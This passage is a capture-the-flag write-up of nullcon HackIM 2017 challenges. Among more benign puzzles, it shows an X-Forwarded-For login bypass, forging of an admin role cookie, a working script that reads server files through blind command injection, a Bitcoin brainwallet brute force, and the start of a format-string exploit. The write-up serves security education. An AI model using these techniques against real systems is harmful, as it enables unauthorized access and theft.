

nullcon HackIM
Programming 100
Posted on February 21, 2017 at 6:30 AM
We unearthed this text file from one of the older servers and want to know what this is all about. Could you please analyse this and let us know your finding?
Viewing the text file, we note that it looks like a python list consisting mostly of (255, 255, 255). If you've done any kind of image processing work, this kind of structure and values should jump out to you as a representation of an RGB image. This is mainly due to the tuples consisting mainly of "255"'s, the maximal RGB value.
I used Jupyter notebooks to display this data:
import matplotlib.pyplot as plt
import numpy as np
f = open("abc.txt", 'r')
x = eval(f.readline())
matrix = np.array([[1 if i==(255,255,255) else 0 for i in x[j*929:(j+1)*929]] for j in range(500,569)],dtype=np.uint8)
plt.imshow(matrix, aspect="auto")Running this code, we obtain:
Flag: flag{Pil_PIL_PIL}
Programming300
Posted on Tuesday, February 21, 2017 at 4:20 PM
Dig deeper and try harder
The challenge page links to a file named 26685. Running file on the downloaded content reveals that it is an LZMA compressed data file. I used a tool called dtrx or "Do The Right Extraction" regularly so I tried that out and was greeted with another archive: a tarball. The following automates the process of extracting nested archives with special cases for archives not handled by dtrx.
#!/bin/bash
set -e
case "$(file 26685)" in
"26685: ZPAQ stream, level 1")
mv 26685 26685.zpaq
zpaq x 26685
;;
"26685: XZ compressed data")
mv 26685 26685.xz
unxz 26685.xz
;;
"26685: lzip compressed data, version: 1")
lzip -d 26685
mv 26685.out 26685
;;
"26685: ARJ archive data, v11, slash-switched, original name: , os: Unix")
mv 26685 26685.arj
arj e 26685
;;
"26685: Zoo archive data, v2.10, modify: v2.0+, extract: v1.0+")
mv 26685 26685.zoo
./booz.run x 26685
;;
"26685: NuFile archive (apple ][) data")
nulib2 -p 26685 > 26685.nu
mv 26685.nu 26685
;;
"26685: bzip2 compressed data, block size = 900k")
bzip2 -d -f 26685
mv 26685.out 26685
;;
*)
dtrx -o -n 26685
;;
esac
The above was invoked with:
while ./extracter.sh; do :; doneThe only formats that posed immediate difficulty were the NuFile archive and the Zoo archive. The NuFile archive had me find an open source implementation of the archiving library. The Zoo archive lead me to the booz extraction program. Eventually I was able to decrypt the archive nest to a textfile containing a printout from ls -la.
total 120
drwx------ 2 root root 28672 Dec 23 21:01 apt-dpkg-install-kKBLWj
-rw-r--r-- 1 root root 71259 Dec 23 19:50 apt-fast.list
-rw-r--r-- 1 root root 0 Dec 23 19:50 apt-fast.lock
-rw-r--r-- 1 root root 0 Dec 23 21:03 secr
drwx------ 3 root root 4096 Dec 23systemd-private-20af98806288452f91376e836938dc35-colord.service-hbUpEj
drwx------ 3 root flag 4096 Dec 23 19:30 63336C756448746861486C35634442684C565A686353467566513D3D Clearly we have a file name that will point us to the flag (owned by the flag user). The other files looked interesting but they ended up being red herrings. Eventually the string was decoded into the flag:
63336C756448746861486C35634442684C565A686353467566513D3D
==> (Hex to ASCII)
c3ludHthaHl5cDBhLVZhcSFufQ==
==> (Base64 to UTF-8)
synt{ahyyp0a-Vaq!n}
==> (Caeser Cipher ROT13 to ROT0)
flag{nullc0n-Ind!a}Flag: flag{nullc0n-Ind!a}
Programming 400
Posted on February 21, 2017 at 6:30 AM
Destroy the enemy bot and take control of our precious next generation robo.
52.90.9.177:9999
Upon connecting to this with netcat, we are confronted with a text based adventure. You could get through this game manually, but this game could be broadly separated into two categories. The first was obtaining all the necessary components of your robot. The tricky part was realizing that a certain code (abacus77) retrieved from one of the destroyed robots could be entered into another to receive the laser.
However, many teams got stuck here (and so did I for a bit). The key lay in paying close attention to how you died when confronting the final boss. If you confronted the final boss without spending too much time, you would attempt to fight it, only to be defeated by the gloating boss. However, if you wasted a lot of moves exploring the map, you wouldn't even attempt to fight back; you would shut down due to your low battery.
So what if we tried to speed our way through the level? In the process of exploring the level, I had written several expect scripts to automate several processes, so I glued them together to speedrun the level.
#!/usr/bin/env expect
spawn nc 52.90.9.177 9999
expect "ib0t Hangar"
send "4\n"
sleep 2;
expect "Re\-ib0t\-control\:\>"
send "1\n"
sleep .1;
expect "\[KEYPAD\]>"
send "abacus77\n"
sleep 2;
expect "service port"
send "service port\n"
sleep 2;
expect "Observation Deck"
send "2\n"
sleep 2;
expect "Main Elevator"
send "1\n"
expect "service port"
send "service port\n"
expect "Elevator"
send "6\n"
expect "Terminate\n"
send "1\n"
expect "service port"
send "service port\n"
expect "Observation deck"
send "5\n"
expect "Enemy Command ib0t"
send "1\n"
interactThis beat the boss and gave you your flag.
Flag: flag{g@me_t!me_!$_g00d}
Misc 100
Posted on February 22, 2017 at 6:30 AM
You are given some old and new programs to try. The plain-text key is hidden inside these programs.
Upon opening the file, we are confronted with code snippets in many different languages (many of which are esoteric). Although I didn't manage to execute every piece of code, I will explain some of them.
The first one was simple C++. It gave nothing interesting, just some meaningless numbers.
#include
#include
#include
void Run( const std::string& v, int tgt, int start ) {
for( ; tgt >= 2 * start + 1; ++start )
Run( v + ' ' + boost::lexical_cast( start ), tgt - start, start + 1 );
std::cout << v << ' ' << tgt << std::endl;
}
int main() {
Run( std::string(), 10, 1 );
getchar();
} The next one was Javascript (although very obfuscated). Due to javascript's weak typing and "ability" to coerce nearly every type, it's possible to make programs that look like this
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\""+$.$$$$+(![]+"")[$._$_]+$.$_$_+"\\"+$.__$+$.$__+$.$$$+"{"+$.__+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$._$$+"_\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$._$$+"_\\"+$.__$+$.$_$+$.$$_+$._$+$.__+"_"+$.__+"\\"+$.__$+$.$_$+$.___+$.$$$_+"_"+$.$$$$+(![]+"")[$._$_]+$.$_$_+"\\"+$.__$+$.$__+$.$$$+"}\\\"\\"+$.$__+$.___+")"+"\"")())();This simply popped up an alert saying "flag{this_is_not_the_flag}". I tried submitting it, but unluckily, they were telling the truth.
Next we had some random ASCII text. I recognized it as Malbolge, due to the complete lack of structure. I ran it in this interpreter. As malbolge code is nearly impossible to write, this merely printed out "Hello World".
('&%:9]!~}|z2Vxwv-,POqponl$Hjig%eB@@>}=Next we had some undecipherable Unicode garbage and then some Java garbage, which I decided to skip over. I couldn't figure out what language the unicode was in, and the Java program took a lot of setup to get right.
Following that, we had another code snippet that looked like our earlier obfuscated javascript code. Upon executing this, however, we ran into recursion depth limits no matter how high I set the limit.
Next, we had some Bash code, which I executed in my terminal, giving us some ascii art (it had better formatting than this on the terminal)
_ _ _ _ _ _ _
| | | | ___| | | ___ __ _____ _ __| | __| | |
| |_| |/ _ \ | |/ _ \ \ \ /\ / / _ \| '__| |/ _` | |
| _ | __/ | | (_) | \ V V / (_) | | | | (_| |_|
|_| |_|\___|_|_|\___/ \_/\_/ \___/|_| |_|\__,_(_)
▐▌ █ ▐▙ █ █ █ ▗▛▀▙ ▟▜▖ ▗█ ▗█▌ ▗█▖
▐▙▄█ ▀▜▖▝▙▀▙▝▙▀▙▐▌ █ ▐▛▙█▗▛▀▙▐▌▖█ ▜▄▛▗▛▀▙ ▀▜▖▝▙▛▙ ▄▛▐▌▖█ █ ▗▛▐▌ ▝█▘
▐▌ █▗▛▜▌ █▄▛ █▄▛▝▙▄█ ▐▌▝█▐▛▀▀▐▙▙█ █ ▐▛▀▀▗▛▜▌ █ ▟▘▄▝▙▗▛ █ ▝▀▜▛ ▀
▝▘ ▀ ▀▘▀▗█▖ ▗█▖ ▗▄▄▛ ▝▘ ▀ ▀▀▘ ▀▝▘ ▝▀▘ ▀▀▘ ▀▘▀▝▀▘ ▝▀▀▀ ▝▀ ▀▀▀ ▀▀ ▀
▟▙█▖▟▙█▖ ▜▌ █ █ ▝▘ █ ▝█ ▟▙█▖▟▙█▖
███▌███▌ ▟▀▟▘▟▀▜▖▟▀▜▖▐▌▟▘ ▝▀▙ ▀█▀ ▀█▀ ▜▌ ▀█▀ █ █ ▟▀█ ▟▀▜▖ ███▌███▌
▝█▛ ▝█▛ ▜▄█ █▀▀▘█▀▀▘▐▛▙ ▟▀█ █▗▖ █▗▖ ▐▌ █▗▖█ █ █ █ █▀▀▘ ▝█▛ ▝█▛
▝ ▝ ▄▄▛ ▝▀▀ ▝▀▀ ▀▘▝▘ ▝▀▝▘ ▝▀ ▝▀ ▀▀ ▝▀ ▝▀▝▘▝▀▝▘▝▀▀ ▝ ▝
... And thank you for reading!!Finally, we ran into this
ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻ //*´∇｀*/ ['_']; o=(ﾟｰﾟ) =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (o^_^o)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (o^_^o)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (o^_^o)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (o^_^o)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (o^_^o)+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_');I had no idea what this could be. I wasn't familiar with any kind of esoteric programming language that looked like this, so I eventually decided to run it in my browser console. "Javascript has surprised me before", I thought. And that's exactly what happened. Running this in the console gives us an alert with the flag:
Flag: flag{flags_are_useless_in_real_world}
Web100
Posted on February 13, 2017 at 9:45 AM
Chris Martin wants to go home. Can you help him get there as soon as possible? http://54.152.19.210/web100/
The site is just a simple username and password protected login. One can assume that proper authentication will lead to the flag.
The source code has a bash64 encoded hash as a comment and we can assume it is going to be useful. After decoding, we see a md5 hash.
MmI0YjAzN2ZkMWYzMDM3NWU1Y2Q4NzE0NDhiNWI5NWM=
Decoded: 2b4b037fd1f30375e5cd871448b5b95c
Googling the hash brings up very little, however, we find the xml files used by a radio station on a Google cached page from December 2016.
<morceau id="6">
<date_prog><![CDATA[2016-12-08 06:49:03]]></date_prog>
<categorie><![CDATA[C1 VIR R]]></categorie>
<chanteur><![CDATA[COLDPLAY]]></chanteur>
<chanson><![CDATA[Paradise]]></chanson>
<pochette><![CDATA[http://covers.eg-ad.fr/coldplay-paradise.jpg]]></pochette>
<duration><![CDATA[]]></duration>
<artiste_id></artiste_id>
<title_id>2b4b037fd1f30375e5cd871448b5b95c</title_id>
<next><![CDATA[]]></next>
<artistnext><![CDATA[]]></artistnext>
<titlenext><![CDATA[La musique revient vite ...]]></titlenext>
<categorynext><![CDATA[]]></categorynext>
<imagenext><![CDATA[]]></imagenext>
<runtimenext><![CDATA[]]></runtimenext>
</morceau>
The hash is associated with the song Paradise by Coldplay. Given that our hint was about Chris Martin, we know we are on the right track. Playing around with an md5 hash calculator we find the hash is of 'coldplayparadise'.
From this, we can assume our username is 'coldplay' and password is 'paradise' but we still aren't able to login. The nullcon twitter page tweeted a hint to the challenge by saying 'There's no place like home.' This is the famous quote which refers to the localhost ip address '127.0.0.1'. Adding a 'X-Forwarded-For' header pointing to localhost ends up doing the trick.
Flag: flag{4f9361b0302d4c2f2eb1fc308587dfd6}
Web200
Posted on February 17, 2017 at 8:00 PM
There are two kinds of people in this world. One with all the privileges and the others. Can you get the flag by eating some British biscuit?
The site is a login form with the option to either sign in or sign up. The form itself is not vulnerable, however, we can sign in using various default username/password combinations, such as admin:admin. Signing in with this account gives us a simple page with the message "Welcome limited user!" and a logout button.
Looking at the request headers for this page, we can see that aside from PHPSESSID, two additional cookies are being used for authentication: u and r.
u=351e76680321232f297a57a5a743894a0e4a801fc3
r=351e766803d63c7ede8cb1e1c8db5e51c63fd47cff
The cookies are both 42 characters long and begin with the same 10 character long string "351e766803". The second part of each cookie appears to be an MD5 hash. Decrypting them, we get the folowing:
21232f297a57a5a743894a0e4a801fc3 MD5 : admin
d63c7ede8cb1e1c8db5e51c63fd47cff MD5 : limited
It is clear that the 'r' cookie controls the access level of the account. Changing the value of this cookie to "351e766803" + the MD5 hash of "admin" allows us to gain access to the administrator account, which has the flag on the home page.
Flag: flag{bb6df1e39bd297a47ed0eeaea9cac7ee}
Web300
Posted on February 13, 2017 at 9:45 AM
http://54.89.146.217/
The challenge provides no hint, just a link to a website. Upon opening up the site you see the following text: "At your service. Give me command with cmd, sir. You will get me. str(/home/nullcon/flagpart1.txt) + str/home/nullcon/flagpart2"
The text on the site immediately suggests the site may be vulnerable to command injection. Further playing around proved that the site was injectable through a query parameter.
http://54.89.146.217/?cmd=
We were able to get the server to sleep with the bash sleep command but were unable to send/receive any information to/from the server with the likes of netcat, telnet, wget, curl, etc. This led us to believe that a firewall was in place. As a result, we wrote a script to iterate through the ascii character set and sleep when the character in the flag text file was a match.
from requests.utils import quote
import time
import unirest
from time import sleep
import string
SLEEP_TIME=1.5
ans = 'flag{'
characters = string.ascii_letters + string.digits
for index in range(1, 100):
for letter in characters:
cmd = '''
python -c "__import__('time').sleep({} if open('/home/nullcon/flagpart1.txt').read({})[-1:] == '{}' else 0)"
'''.format(SLEEP_TIME, index, letter)
start = time.time()
response = unirest.get("http://54.89.146.217/?cmd={}".format(quote(cmd, safe='')))
end = time.time()
elapsed = end - start
if elapsed > SLEEP_TIME:
ans += letter
print ans + '}'
break
While inefficient, the script was ultimately successful and produced the following output:
flag{0}
flag{0m}
flag{0mg}
flag{0mgt}
flag{0mgth}
flag{0mgth4}
flag{0mgth4t}
flag{0mgth4ts}
Switching the script to flagpart2.txt we get the remainder of the flag
flag{a}
flag{an}
flag{ani}
flag{anic}
flag{anice}
flag{anicef}
flag{anicefl}
flag{anicefla}
flag{aniceflag}
Flag: flag{0mgth4tsaniceflag}
Crypto100
Posted on February 21, 2017 at 9:45 AM

The clue is a screenshot of a webpage, called Brainwallet, which contains a patially obscured passphrase 8ln********nl8 and instructions to "find the private key", as well as a QR-code and a superimposed image of scrambled eggs with the text nullcon8itsgr8
The screenshot is immediately identifiable as a Bitcoin brainwallet generator, which takes a passphrase and generates a Bitcoin private key / address pair. The image of scrambled eggs suggests that the passphrase is a permutation of the string "nullcon8itsgr8", and the partilly unobscured passphrase indicates that the solution begins with "8ln" and ends with "nl8". This leaves us with all of the possible permutations of "ucoitsgr". The 40,320 possible passphrases should be trivial to brute force.
First we generate a list of all possible passphrases:
from itertools import permutations
f = open("passphrases.txt","w")
for p in permutations("ucoitsgr"):
f.write("8ln"+''.join(p)+"nl8\n")
f.close()
Now we need to generate Bitcoin addresses from each of the possible passphrases and see which one matches the address in the picture. We scan the QR code and find that the target address is 17iUnGoZbFrGS7uU9z2d2yRT9BKgVqnKnn. To do the actual cracking, we use a tool called brainflayer. First we convert the address from Base58Check encoding to the raw hex using Bitcoin-bash-tools. Then we convert the hex address to a bloom filter and run the tool:
$decodeBase58 17iUnGoZbFrGS7uU9z2d2yRT9BKgVqnKnn > addr.hex
$./hex2blf addr.hex addr.blf
$./brainflayer -b addr.blf -i passphrases.txt
> 49a8ffca38cdd108a25715a3b013e76ff8db39f5:u:sha256:8lnustorcginl8
We now have the passphrase, but we need to convert it into the Wallet Import Format, which is a checksummed, standardized, Base58Check encoded format. We sha256 the passphrase to get the raw private key, compute the checksum and then base58 encode it.
$ HEXKEY=$(echo -n "8lnustorcginl8" | sha256sum -b | head -c 64)
$ CHECKSUM=$(echo -n 80$HEXKEY | xxd -r -p | sha256sum -b | head -c 64 | xxd -r -p | sha256sum -b | head -c 8)
$ echo $(encodeBase58 80$HEXKEY$CHECKSUM)
> 5KjzfnM4afWU8fJeUgGnxKbtG5FHtr6Suc41juGMUmQKC7WYzEG
Flag: flag{5KjzfnM4afWU8fJeUgGnxKbtG5FHtr6Suc41juGMUmQKC7WYzEG}
Exploitation 200
Posted on February 15, 2017 at 8:00 PM
This is a simple program; there's probably nothing exploitable right? It just works with simple strings! Exploit the daemon at 34.198.96.6:9001
The program that they provide and that is running on the server is a simple book managing application. You can insert new books, list existing books, search books, and delete books. Lets play with the program a bit to get a sense of how it works, keeping in mind the hint. This has something to do with strings which suggests we are looking for a buffer overflow or a format string exploit.
Book Manager:
[1] Insert
[2] List
[3] Search
[4] Delete
[5] Exit
Enter choice: 1
Enter book name: fancy book
Enter book id: 0
You can insert books, give them a name and an id number. What happens when we list them?
Enter choice: 2
[0] fancy book
The program just seems to print out a list of books you've previously inserted. What about searching?
Enter choice: 3
Search by book_id or name (name:abc, book_id:123)
Enter query: book_id:0
Searching with: book_id:0
��
FOUND
[0] fancy book
We can search books either by name or by book_id. Searching for the book id we previously inserted prints out some strange characters. Lets play around with this and see if there is anything exploitable here. Maybe this is vulnerable to a format string exploit?
Enter choice: 3
Search by book_id or name (name:abc, book_id:123)
Enter query: %08x %08x %08x
Searching with: ffce596c 00000400 f77a153c
Hey! We managed to print out some values from the stack! We have found a vulnerability. Now we just need to exploit this.
Lets open up this program in radare2 to get a better sense of what's happening.
$ r2 level1.bin
[0x080485c0]> aaaa
[0x080485c0]> is | grep 'bind=LOCAL type=FUNC'
vaddr=0x08048600 paddr=0x00000600 ord=030 fwd=NONE sz=0 bind=LOCAL type=FUNC name=deregister_tm_clones
vaddr=0x08048630 paddr=0x00000630 ord=031 fwd=NONE sz=0 bind=LOCAL type=FUNC name=register_tm_clones
vaddr=0x08048670 paddr=0x00000670 ord=032 fwd=NONE sz=0 bind=LOCAL type=FUNC name=__do_global_dtors_aux
vaddr=0x08048690 paddr=0x00000690 ord=035 fwd=NONE sz=0 bind=LOCAL type=FUNC name=frame_dummy
vaddr=0x080486bb paddr=0x000006bb ord=039 fwd=NONE sz=176 bind=LOCAL type=FUNC name=insert
vaddr=0x0804876b paddr=0x0000076b ord=040 fwd=NONE sz=586 bind=LOCAL type=FUNC name=search
vaddr=0x080489b5 paddr=0x000009b5 ord=041 fwd=NONE sz=252 bind=LOCAL type=FUNC name=delete
vaddr=0x08048ab1 paddr=0x00000ab1 ord=042 fwd=NONE sz=92 bind=LOCAL type=FUNC name=list
vaddr=0x08048b0d paddr=0x00000b0d ord=043 fwd=NONE sz=272 bind=LOCAL type=FUNC name=menu
Here we have a list of the locally defined functions. This is pretty much what we expected from the functioning of the program. There seems to be a function for displaying the menu, and then doing all the actions we saw from the program. Let's look at the disassembly of our vulnerable function, search.
[0x080485c0]> s sym.search
[0x0804876b]> VV
┌───────────────────────────────────────────────┐
│ 0x804899f ;[d] │
│ ; JMP XREF from 0x0804899c (sym.search) │
│ ; JMP XREF from 0x08048979 (sym.search) │
│ ; JMP XREF from 0x080487ae (sym.search) │
│ mov eax, dword [ebp - local_ch] │
│ xor eax, dword gs:[0x14] │
│ je 0x80489b0 ;[z] │
└───────────────────────────────────────────────┘
f t
┌───────────────┘ └───────────────────────┐
│ │
│ │
┌─────────────────────────────────────┐ ┌─────────────────────────────────┐
│ 0x80489ab ;[Ab] │ │ 0x80489b0 ;[z] │
│ call sym.imp.__stack_chk_fail ;[Aa] │ │ mov ebx, dword [ebp - local_4h] │
└─────────────────────────────────────┘ │ leave │
│ ret │
└─────────────────────────────────┘
The function is long. Above is the final few blocks of the function. These blocks indicate that stack canaries have been enabled and we won't be able to simply smash the stack.
We will have to be a little more creative. We will get control of the instruction pointer by overwriting a value of the Global Offset Table (GOT). Let's choose a function
